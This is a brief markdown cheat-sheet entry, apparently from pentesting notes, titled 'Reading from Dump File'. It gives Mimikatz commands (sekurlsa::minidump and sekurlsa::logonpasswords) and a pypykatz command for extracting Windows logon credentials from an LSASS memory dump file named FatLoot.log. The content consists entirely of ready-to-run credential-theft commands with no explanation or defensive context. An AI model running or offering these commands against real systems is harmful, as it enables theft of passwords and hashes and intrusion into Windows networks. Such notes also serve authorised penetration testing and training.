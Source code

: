# Reading from Dump File

## Mimikatz

```
sekurlsa::minidump FatLoot.log
sekurlsa::logonpasswords
```
## Pypykatz

```
pypykatz lsa minidump /home/kali/ts_client/FatLoot.log  
```
